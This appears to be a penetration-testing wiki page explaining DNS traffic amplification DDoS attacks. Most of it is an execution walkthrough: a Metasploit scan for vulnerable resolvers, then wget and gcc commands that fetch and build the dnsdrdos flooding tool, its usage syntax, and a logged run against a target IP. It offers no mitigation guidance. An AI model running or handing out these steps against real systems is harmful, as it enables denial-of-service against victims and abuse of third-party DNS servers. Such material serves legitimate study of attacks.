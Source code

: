 # DNS Traffic Amplification

## What is DNS Traffic Amplification?

A DNS (Traffic) Amplificaton attack is a popular form of a distributed denial of service (DDoS) attack, which abuses open DNS resolvers to flood a target system with DNS response traffic. It's called an _amplification_ attack because it uses DNS responses to upscale the size of the data sent to the victim.

## How does it work?

An attacker sends a DNS name lookup to an open resolver with the source IP spoofed to be the victim's IP address. That way, any response traffic would be sent to the victim and not the attacker. The requests submitted by the attacker usually aim to query for as much information as possible in order to maximise the amplification effect. In most cases, the queries sent are of type `ANY` which requests all known information about a particular DNS zone. Using a botnet, it's easy to create immense amounts of traffic. It is also rather difficult to protect against these attacks because the traffic is coming from legitimate sources - real DNS servers.

### Conducting a DNS Traffic Amplification Attack

#### Testing a DNS server for attack surface

We should first check if a DNS Traffic Amplification is possible and if it's viable. We can do this through [Metasploit](dns-traffic-amplification.md) using the module `auxiliary/scanner/dns/dns_amp`.

![](../../Exploitation/DNS/Resources/Images/msf6-dns-amp.png)

In the `RHOSTS` you need to put the IP of the name server you want to test. _This module will tell you if a name server can be used in an amplification attack but won't actually execute the attack._

Run the scanner:

![](../../Exploitation/DNS/Resources/Images/msf6-dns-amp-sc-run.png)

#### Executing the attack

A simple tool is available only as a proof of concept [here](https://github.com/rodarima/lsi/blob/master/entrega/p2/dnsdrdos.c). You will need to download and then compile it:

```bash
wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
```

```bash
gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```

```bash
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
--2021-09-21 13:01:11--  https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15109 (15K) [text/plain]
Saving to: ‘dnsdrdos.c’

dnsdrdos.c                                                  100%[========================================================================================================================================>]  14.75K  --.-KB/s    in 0.001s  

2021-09-21 13:01:11 (17.9 MB/s) - ‘dnsdrdos.c’ saved [15109/15109]

┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```

Now, create a file containing the IP's of each DNS server you want to use in the attack (only one IP per line). Use the following syntax to run the attack:

```bash
sudo ./dnsdrdos -f <dns servers file> -s <target IP> -d <domain> -l <number of loops through the list>
```

```bash
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ sudo ./dnsdrdos -f dns_servers -s 192.168.129.2 -d nsa.gov -l 30
-----------------------------------------------    
dnsdrdos - by noptrix - http://www.noptrix.net/    
-----------------------------------------------

┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$
```

The output may be empty, but the packets were sent. You can verify this with `wireshark`:

![](../../Exploitation/DNS/Resources/Images/dnsdrdos-wireshark.png)
